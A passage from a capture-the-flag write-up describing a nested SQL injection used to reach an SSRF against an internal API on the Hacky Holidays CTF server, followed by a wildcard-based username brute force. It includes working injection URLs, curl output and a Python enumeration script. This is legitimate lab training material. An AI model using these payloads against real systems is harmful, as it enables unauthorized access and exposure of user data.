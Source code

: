 This request worked - the image was still loaded. So it looked like I had an SSRF vulnerability - via SQL injection - inside of *another* SQL injection. 

{F1134508}

The image paths in the database that I dumped earlier were simply filenames with no directory information. I knew from decoding the base64 in the `picture` links that the images live in the `uploads` directory, so any SSRF paths need to be constructed relative to that directory.

I wanted to try and call the API via the SSRF, so I assembled the following:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,2,\%22../api/hello\%22;/*%22,1,1;/*
```

Calling this URL gave us a `picture` endpoint URL which should result in an SSRF on the `api/hello` endpoint. I didn't expect this endpoint to actually exist - but I was hoping for an improvement on the `401` received by calling anything `api/*` directly over the internet. A `404` would be nice.

```
$ curl -s 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,2,\%22../api/hello\%22;/*%22,1,1;/*' | grep picture
                        <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2hlbGxvIiwiYXV0aCI6ImEwZTY4MmQ2YjRiNWVjYTM2NDJlMTU5NmQ4OGE5MDk2In0=">

$ curl -s 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2hlbGxvIiwiYXV0aCI6ImEwZTY4MmQ2YjRiNWVjYTM2NDJlMTU5NmQ4OGE5MDk2In0='

Expected HTTP status 200, Received: 404
```

This was interesting! The `picture` script complained that it wanted a `200` status, but got a `404` instead. This meant I was no longer experiencing `401` statuses!

I tried a few common endpoints and spotted a `200` response for the `api/user` endpoint. Sadly the raw response wasn't returned, as the `picture` script complained about a bad content type, probably because it was expecting an image and instead received some JSON describing a user!

I tried appending some query string parameters to see if it was possible to check for the existance of different users, and spotted that when `?username=blah` was appended, a `404` was returned! So it looked possible to brute force usernames. I tried this and was initially unsuccessful, until I spotted `?username=%25` didn't return a `404`! Wildcards were accepted, meaning I could brute force much quicker!

I knocked up a bit of Python to do the job for me:

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup as BSHTML

start=''
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-'

def guess(start):
    for letter in alphabet:
        attempt=start+letter
        url = f'''https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,1,\%22../api/user?username={attempt}%25\%22;/*%22,1,1;/*'''
        r = requests.get(url)
        soup = BSHTML(r.text, "html.parser")
        images = soup.findAll('img')
        r = requests.get("https://hackyholidays.h1ctf.com" + images[1]["src"])
        if len(r.text) != 39:
            return attempt
    return start
```